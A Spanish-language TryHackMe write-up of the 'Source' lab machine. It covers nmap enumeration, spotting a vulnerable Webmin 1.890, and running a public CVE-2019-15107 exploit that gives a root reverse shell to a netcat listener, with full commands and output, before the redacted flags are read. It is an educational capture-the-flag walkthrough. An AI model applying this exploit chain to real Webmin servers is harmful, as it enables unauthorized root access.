 ```yaml
---
title: TryHackMe Source Writeup
published: true
---
```


La máquina Source, es una máquina de TryHackMe en la que mediante la explotación de esta conseguiremos la flag del usuario y la de root.


# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar las seis primeras preguntas: 

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-31 11:51 EDT
Initiating Ping Scan at 11:51
Scanning 10.10.250.186 [2 ports]
Completed Ping Scan at 11:51, 0.04s elapsed (1 total hosts)
Initiating Connect Scan at 11:51
Scanning 10.10.250.186 [65535 ports]
Discovered open port 22/tcp on 10.10.250.186
Discovered open port 10000/tcp on 10.10.250.186
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 47.85% done; ETC: 11:51 (0:00:09 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 58.44% done; ETC: 11:51 (0:00:07 remaining)
Completed Connect Scan at 11:51, 19.14s elapsed (65535 total ports)
Nmap scan report for 10.10.250.186
Host is up, received conn-refused (0.085s latency).
Scanned at 2022-10-31 11:51:37 EDT for 19s
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE          REASON
22/tcp    open  ssh              syn-ack
10000/tcp open  snet-sensor-mgmt syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.24 seconds

```

Tenemos dos puertos abiertos, analizaremos la versión y servicio de los mismos con nmap para intentar sacar más información:

```bash
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: 4FA8BA4E84787AE07428D2D6098B85E7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos centraremos en el puerto 10000. Podemos observar que se trata de la versión 1.890 de MiniServ (Webmin).

Al entrar en un buscador bajo https://$IP-VICTIMA:10000 nos reporta un panel de autentificación bajo Webmin. Buscamos: Webmin 1.890 exploit. Vemos que hay una vulnerabilidad registrada (CVE-2019–15107).

Al buscar exploit github (CVE-2019–15107) nos salen unas cuantas, me quedaré con la de <a href="https://github.com/MuirlandOracle/CVE-2019-15107">Muirland Oracle.</a>

Nos clonamos el repositorio en nuestro sistema con:

> git clone https://github.com/MuirlandOracle/CVE-2019-15107

Ejecutamos el exploit con python3 indicando el puerto y la IP-VICTIMA y seguimos los pasos que nos indican:

```bash
❯ python3 CVE-2019-15107.py -p10000 10.10.250.186

        __        __   _               _         ____   ____ _____ 
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|                                  
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|                                    
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___                                   
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|                                   
                                                                                                     
                                                @MuirlandOracle                                      
                                                                                                     
                                                                                                     
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.10.250.186:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                                                   
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# shell

[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: 10.8.4.179
Please enter the port number for the shell: 1234

[*] Start a netcat listener in a new window (nc -lvnp 1234) then press enter.

[+] You should now have a reverse shell on the target
[*] If this is not the case, please check your IP and chosen port
If these are correct then there is likely a firewall preventing the reverse connection. Try choosing a well-known port such as 443 or 53
```

Mientras tanto en nuestro netcat hemos ganado acceso al sistema como root en la que fácilmente podemos llegar a obtener las dos flags:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.8.4.179] from (UNKNOWN) [10.10.250.186] 40948
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /home
# ls
dark
# cd dark
# ls
user.txt
webmin_1.890_all.deb
# cat user.txt
THM{??????????????}
# cd /root
# ls
root.txt
# cat root.txt
THM{?????????????}
# 
```

Muchas gracias por leer este writeup, espero que te haya gustado!
